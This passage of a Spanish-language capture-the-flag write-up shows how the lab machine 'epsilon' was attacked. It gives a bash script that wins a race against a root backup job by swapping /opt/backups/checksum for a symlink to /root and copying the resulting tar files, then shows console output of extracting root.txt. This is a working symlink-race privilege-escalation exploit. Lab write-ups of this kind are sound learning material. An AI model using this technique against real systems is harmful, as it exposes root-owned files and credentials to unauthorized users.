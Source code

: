 Como hay que ser rapidos con el tiempo mejor que se escriptee esto:  
```bash
#!/bin/bash
while true; do
        if [ -e /opt/backups/checksum ]; then
                echo "[*] Existe el archivo"; rm -rf /opt/backups/checksum   # Elimina el cheksum original
                echo "[*] Creando el enlace a /root"; ln -s /root /opt/backups/checksum; sleep 5  # Crea uno nuevo que apunte a la carpeta del root
                break
        fi
        cp /var/backups/web_backups/*.tar /tmp/tars  # Copia ese nuevo tar (o tars) que se ha creado a /tmp/tars para que no se borren
done
```

```console
tom@epsilon:/tmp$ ./volcado.sh 
[*] Existe el archivo
[*] Creando el enlace a /root
tom@epsilon:/tmp$ ls -l ./tars
total 82376
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 502699129.tar
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 533085657.tar
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 562277370.tar
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 588944643.tar
-rw-r--r-- 1 tom tom 80332800 Nov 12 19:20 619307816.tar # Este sin duda, es el mas grande
tom@epsilon:/tmp/tars$ tar xvf 619307816.tar
tom@epsilon:/tmp/tars$ cd ./opt/backups/checksum/
tom@epsilon:/tmp/tars/opt/backups/checksum$ ls
docker-compose.yml  lambda.sh  root.txt  src
```
